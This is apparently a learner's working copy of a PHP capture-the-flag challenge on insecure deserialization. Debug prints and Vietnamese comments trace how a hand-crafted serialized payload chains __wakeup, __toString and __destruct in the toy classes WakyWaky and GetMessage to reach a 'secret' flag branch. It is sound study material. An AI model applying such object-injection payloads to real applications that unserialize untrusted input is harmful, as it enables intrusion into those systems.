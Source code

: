 ```php
    function __toString() {
        echo "toString GetMessage was called?\n" ;
        return $this->receive;
    }
    
    function __destruct() {
        echo "destruct is called\n";

        var_dump($this);

        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..\n");
        } else {
            if ($getflag) {
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: \n";
            }
        }
    }
}
    
class WakyWaky {
    public $msg;
    function __wakeup() {
        echo "wakeup11111 WAS HERE RIGHT?\n";
        echo "class of \$this->msg = " . get_class($this->msg) . "\n";
        echo "[YOU]: ".$this->msg."\n"; // trong wakeup lần 2 gọi outer waky => this->msg khi này là inner waky, và inner waky là thằng bị gọi tostring?
        echo "wakeup22222 WAS HERE RIGHT?\n";
    }
    
    function __toString() {
        echo "toString WakyWaky was here right?\n";
        echo "class of \$this->msg = " . get_class($this->msg) . "\n"; // vì inner waky là thằng bị gọi tostring => this->msg truyền vào khi này là object GetMessage, đúng như kết quả var_dump
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
        // O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
    }
}
    
$tmp = 'O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}';
unserialize($tmp);

?>
```



[YOU]: HelloBooooooy